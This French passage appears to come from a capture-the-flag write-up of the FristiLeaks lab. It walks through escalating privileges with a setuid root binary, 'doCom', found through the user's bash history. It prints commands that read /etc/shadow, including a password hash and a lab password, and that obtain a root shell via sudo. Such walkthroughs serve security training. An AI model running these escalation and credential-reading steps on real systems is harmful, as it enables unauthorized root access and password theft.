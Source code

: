 ```console
drwxrwxr-x. 2 fristigod fristigod 4096 Nov 25  2015 .
drwxr-x---  3 fristigod fristigod 4096 Nov 25  2015 ..
-rwsr-sr-x  1 root      root      7529 Nov 25  2015 doCom

-bash-4.1$ file doCom
file doCom
doCom: setuid setgid ELF 64-bit LSB executable, x86-64, version 1 (SYSV),
dynamically linked (uses shared libs), for GNU/Linux 2.6.18, not stripped
```

_Nota Bene : quand un fichier exécutable est propriété de l'utilisateur root, et est rendu setuid, tout processus exécutant ce fichier peut effectuer ses tâches avec les permissions associées à root, ce qui constitue un risque de sécurité pour la machine, s'il existe une faille dans ce programme. En effet, un hacker pourrait utiliser cette faille pour effectuer des opérations réservées à root, par exemple en se créant un compte d'accès illimité en temps et en pouvoirs. Source : Article [Setuid](https://fr.wikipedia.org/wiki/Setuid) de
[Wikipédia en français](https://fr.wikipedia.org/) ([auteurs](https://fr.wikipedia.org/w/index.php?title=Setuid&action=history))._

L'historique des commandes Unix de l'utilisateur ```fristigod``` pourra sans doute nous aiguiller quant à l'utilisation de ```doCom```.

```console
-bash-4.1$ cat .bash_history
--snip--
./doCom 
sudo -u fristi ./doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
exit
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
sudo /var/fristigod/.secret_admin_stuff/doCom
--snip--
```

Il est ainsi possible d'effectuer des opérations réservées à root, telles que la lecture du fichier ```/etc/shadow```.

```console
-bash-4.1$ sudo -u fristi ./doCom "head -n1 /etc/shadow"
sudo -u fristi ./doCom "head -n1 /etc/shadow"
[sudo] password for fristigod: LetThereBeFristi!

root:$6$qAoeosiW$fsOy8H/VKux.9K0T3Ww2D3FPNlO5LAaFytx/6t69Q7LPDSS/nNiP4xzq0Qab.Iz3uy5fYdH3Aw/K5v3ZMhRRH0:16756:0:99999:7:::
```

Nous y sommes presque !

```console
-bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "sudo su"
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom "sudo su"
[root@localhost .secret_admin_stuff]# id
id
uid=0(root) gid=0(root) groups=0(root)
```
